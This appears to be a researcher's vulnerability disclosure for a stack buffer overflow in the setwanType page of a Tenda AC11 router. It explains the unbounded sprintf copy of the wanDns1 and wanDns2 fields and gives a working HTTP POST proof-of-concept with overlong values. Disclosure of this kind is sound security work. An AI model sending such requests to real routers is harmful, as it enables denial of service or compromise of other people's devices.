 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setwanType` page which influence the lastest version routerOS(RTOS, This is system different from linux system)[AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
In the page `/gofrom/setwanType` have one stack buffer overflow vulnerability.

1. It isn't limit our input when we input `wanDns1` in `v12` and `wanDns2` in `v13`.
2. Then `v12` and `v13` will copy to a stack value `v45` by using `sprintf_1(v45, "%s %s", v12, v13);` .%s couldn't limit copy length ,so wo can make stack buffer overflow in `v45`
![](./1.png)

## poc 

```
POST /goform/setwanType HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wanDns1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wanDns2=wanDns2=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```
## Acknowledgment 

Credit to [@peanuts](https://github.com/peanuts62), [@leonW7](https://github.com/leonW7), [@cpegg](https://github.com/cpeggg),[@ainevsia](https://github.com/ainevsia), [@Lnkvct](https://github.com/Lnkvct) and [@Yu3H0](https://github.com/Yu3H0/) from Shanghai Jiao Tong University.
